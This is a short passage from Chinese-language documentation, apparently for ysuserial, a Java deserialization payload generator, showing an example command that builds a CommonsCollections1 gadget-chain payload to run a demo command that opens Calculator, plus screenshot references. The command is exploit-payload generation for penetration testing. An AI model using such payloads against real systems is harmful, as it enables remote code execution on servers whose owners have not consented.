 ![image-20220618205547397](images/image-20220618205547397.png)

**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'
```

效果图：

![image-20220618205828822](images/image-20220618205828822.png)
